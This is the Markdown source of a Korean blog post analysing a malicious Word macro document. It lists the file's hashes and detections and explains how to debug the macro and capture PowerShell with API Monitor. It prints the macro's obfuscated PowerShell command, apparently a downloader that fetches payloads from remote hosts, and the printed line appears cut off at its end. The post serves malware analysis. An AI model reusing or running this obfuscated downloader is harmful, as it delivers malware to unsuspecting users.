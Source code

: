 ```yaml
---
layout: post
comments: true
categories: posts
title: Powshell script obfuscation decode
subtitle: with api monitor
author: cainstorm
featured-image: /images/header/header_004.jpg
tags: [malware]
date-string: JUNE 28, 2018
---
```

<script src="//ajax.googleapis.com/ajax/libs/jquery/1.9.1/jquery.min.js"></script>
<script>window.jQuery || document.write('<script src="_/js/libs/jquery-1.9.1.min.js"><\/script>')</script>

### Powshell script obfuscation decode
악성 워드 문서 내, 파워쉘로 전달되는 난독화된 문자열 해제하기
<br>
> Filename : INV-840681218377.doc
> - MD5 : 61f2858cc90a8a2f1bc754492b0a0369
> - SHA1 : c3ecb541f8ffe2597f1991b74aac2170b17be849
> - SHA256 : 529024a76742a7337f1fabb0ee417ac2214be7a6a682ac8a4f4a30951e915e5e
> - Filesize : 	225.00 KB (230400 bytes)
> - Detection (Virustotal **39/54**)
>  - ALYac : Trojan.Downloader.VBA.gen
>  - AhnLab-V3 : W97M/Downloader

악성 워드 문서의 매크로 삽입 확인<br>
- [보기] -> [매크로] -> [편집]<br>
<br>
Visuao Basic for Applications 에서 다음과 같이 스크립트 화면을 볼 수 있는데, 파워셀에 명령을 전달하기 전인 끝나는 지점 [End Sub] 지점에서 
브레이크 포인트[F9] 를 걸어두고 [F8] 키를 눌러 한 단계씩 코드를 실행하며 디버깅 할 수 있다.
마지막 한 변수 안의 값이 파워셀로 전달되는 페이로드가 저장된 것을 확인할 수 있다.
<br>
<center>
    <div class="photoset-grid-custom" data-layout="21">
		<img src="/images/2018-06-28/2018-06-28-mal-001.jpg">
		<img src="/images/2018-06-28/2018-06-28-mal-002.jpg">		
		<img src="/images/2018-06-28/2018-06-28-mal-003.jpg">
	</div>
</center><br>

PowerShell 명령을 디버깅 할수 있는 프로그램(PowerShell ISE) 으로 명령어를 실행할 수 있다. 
여기서 확인할 사항은 MAS 분석 시 나온 command line 의 값을 생략된 것으로 추정됨
파워셀은 MS에서 개발한 명령어 인터프리터로 XP 이후의 윈도우에서 지원한다고 한다.<br><br>
워드문서의 매크로를 실행 시, 파워셀이 실행되면서 명령어 전달 이후 바로 종료되기 때문에 프로세스는 잠시 잡아두어야 하는데 API Monitor 란 도구를 사용하여 실행되는 프로세스를 모니터링 및 디버깅이 가능하다.<br>
**(아래 그림의 빨간 테두리 안의 버튼이 활성화 되어 있어야 함)**
**ollyDBG 나 Immunity DBG 에서도 프로세스를 attach 시켜 확인 가능하나 프로그램 실행하면서 attach를 하려는 순간 프로세스가 종료되어 버림**
<br><br>
<center>
    <div class="photoset-grid-custom" data-layout="22">
		<img src="/images/2018-06-28/2018-06-28-mal-004.jpg">
		<img src="/images/2018-06-28/2018-06-28-mal-005.jpg">		
		<img src="/images/2018-06-28/2018-06-28-mal-006.jpg">
		<img src="/images/2018-06-28/2018-06-28-mal-007.jpg">
	</div>
</center><br>

## Powershell command line<br>

```
PowersHell  [StriNG]::JOIn('',( '56W84c85%119k33N114U121k107N49%115~126Y118%121%127U104N60U82h121k104W50}75}121N126c95k112%11
7h121~114~104}39}56h110k81h75U33W59}116~104k104k108c38U51k51k107}107N107h50U46W114N120%111}127~110N121}121h114%111h115}127%
117~121W104~101N50~127W115c113W51%77c70k70W94W51c92}116Y104c104c108Y38}51h51%107Y107~107k50Y120~117U114U123Y120~
115k114U123c120%115N123c104U110W125W117c114k117U114%123N50Y127N115c113%51%90h127%115~118c51k92N116Y104%104~
108U38W51k51W107k107c107}50}110h125W120Y117~115Y117~114h111c108U117%110%125~127N117W115k114}104~106~50W127c115~
113~51N117k84U122W79U75N89k51c92N116k104}104}108~38k51c51k107%107}107W50k113W115%115h126W117k112}121h125N108c108
Y50h127k115%113N51N109k116N115c43c42U51U92Y116}104~104h108}38N51N51k107Y107%107W50~126%111~49~117c106Y122h49}122
W113k50h127h115~113Y51}45N117W85Y84%37}51%59N50%79N108k112c117W104k52N59}92U59U53%39U56W112N74c112W60W33}60h59}
36%40U42%59U39k56U88U118Y90h33N56c121k114U106k38k104%121c113k108~55}59Y64k59c55%56~112W74k112W55W59c50U121}100N
121c59}39h122Y115N110W121k125U127k116}52N56}108U84}107k60%117W114N60%56k110%81}75~53h103U104W110W101}103}56h84U85}
119h50Y88h115}107W114W112c115W125Y120W90%117c112%121N52~56U108k84h107%48k60~56%88c118h90}53%39h79h104}125~110Y
104W49Y76Y110h115}127Y121%111k111~60c56N88~118N90W39c126}110c121c125%119c39W97k127~125k104c127N116}103k97W97' -spliT'u'-sp
```

<center>
    <div class="photoset-grid-custom" data-layout="2">
		<img src="/images/2018-06-28/2018-06-28-mal-008.jpg">
		<img src="/images/2018-06-28/2018-06-28-mal-009.jpg">		
	</div>
</center><br>

<script src="/assets/js/jquery.photoset-grid.js"></script>

<script type="text/javascript">
    $('.photoset-grid-custom').photosetGrid({
    // Set the gutter between columns and rows
    gutter: '5px',
  
    // Wrap the images in links
    highresLinks: true,
  
    // Asign a common rel attribute
    rel: 'print-gallery',

    onInit: function(){},
    
    onComplete: function(){
        // Show the grid after it renders
        $('.photoset-grid-custom').attr('style', '');
    }
});
</script>


{% if page.comments %}
<div id="post-disqus" class="container">
{% include disqus.html %}
</div>
{% endif %}
